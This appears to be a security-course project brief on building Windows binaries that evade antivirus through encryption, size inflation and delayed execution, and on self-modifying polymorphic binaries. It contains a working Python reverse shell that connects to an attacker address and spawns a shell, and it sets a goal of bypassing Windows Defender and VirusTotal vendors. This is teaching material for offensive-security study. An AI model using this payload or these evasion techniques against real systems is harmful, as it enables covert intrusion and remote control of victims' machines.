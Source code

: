 As part of the project, you will participate in a role-play session where you act as a **Binary Analyst** presenting your work to a team of stakeholders. Prepare to discuss:

- The structure and functionality of the binaries you developed.
- What techniques did you use to implement stealth and polymorphism?
- Recommendations for detecting and mitigating similar techniques.
- Ethical considerations and legal implications of working with obfuscated binaries.

### Reverse Shell Payload Explanation

A reverse shell payload is a piece of code that allows a target machine to initiate a connection back to an attacker's machine. This is often used in penetration testing to simulate real-world attack scenarios. In this project, you’ll implement a basic reverse shell payload for educational purposes.

#### Example:

A simple reverse shell in Python:

```python
import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.100", 4444))  # Replace with the attacker's IP and port
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
```

> ⚠️ Warning: Ensure that the reverse shell payload is tested **only** in a controlled, isolated environment, such as your virtual machine. Replace the IP and port in the example with local testing values.

### Project Requirements

#### Setup and Environment

- Use a Windows-based virtual machine as your development and testing environment.
- Ensure proper isolation to prevent unintended consequences.

#### The Challenge

1. **Evasion Program:**

- Encrypt a target binary and add stealth features:
    - File size manipulation: Increase the binary size. (e.g., 101 MB).
    - Execution delay: Ensure the binary does not execute until a specified delay (e.g., 101 seconds).
- Ensure the encrypted binary bypass detection by Windows Defender and at least 60% of security vendors on VirusTotal.

2. **Polymorphic Program:**

- Generate binaries that self-modify while maintaining their original functionality.
- Use a reverse shell as the payload for the polymorphic binary.
